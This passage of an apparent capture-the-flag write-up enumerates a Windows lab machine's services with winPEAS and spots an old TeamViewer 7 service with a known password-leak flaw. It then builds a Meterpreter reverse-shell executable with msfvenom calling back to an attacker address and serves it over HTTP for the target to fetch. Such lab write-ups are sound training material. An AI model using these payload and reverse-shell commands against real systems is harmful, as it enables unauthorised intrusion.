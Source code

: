 ```powershell
   at winPEAS.Native.Classes.UNICODE_STRING.Dispose(Boolean disposing)     
    ssh-agent(OpenSSH Authentication Agent)[C:\Windows\System32\OpenSSH\ssh-agent.exe] - Disabled - Stopped                                           
    Agent to hold private keys used for public key authentication.
   =================================================================================================                                                  

    TeamViewer7(TeamViewer GmbH - TeamViewer 7)["C:\Program Files (x86)\TeamViewer\Version7\TeamViewer_Service.exe"] - Auto - Running                 
    TeamViewer Remote Software
   =================================================================================================                                                  

    VGAuthService(VMware, Inc. - VMware Alias Manager and Ticket Service)["C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"] - Auto - Running
    Alias Manager and Ticket Service
   =================================================================================================                                                  

    vm3dservice(VMware, Inc. - VMware SVGA Helper Service)[C:\Windows\system32\vm3dservice.exe] - Auto - Running                                      
    Helps VMware SVGA driver by collecting and conveying user mode information                                                                        
   =================================================================================================                                                  

    VMTools(VMware, Inc. - VMware Tools)["C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"] - Auto - Running                                        
    Provides support for synchronizing objects between the host and guest operating systems.                                                          
   =================================================================================================   
```

Based on this enum, I could find out that `TeamViewer 7` service is running behind which is not normal.

I googled if there's any vulnerability, and found that it has a password leaking vulnerability as follows:
https://whynotsecurity.com/blog/teamviewer/

To run this exploit, I need to open a new shell with metasploit.

Let's create a payload and open web server

```bash
┌──(kali㉿kali)-[~/htb]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=9001 -f exe -o rshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: rshell.exe


┌──(kali㉿kali)-[~/htb]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.180 - - [06/Dec/2024 07:48:10] "GET /rshell.exe HTTP/1.1" 200 -
```
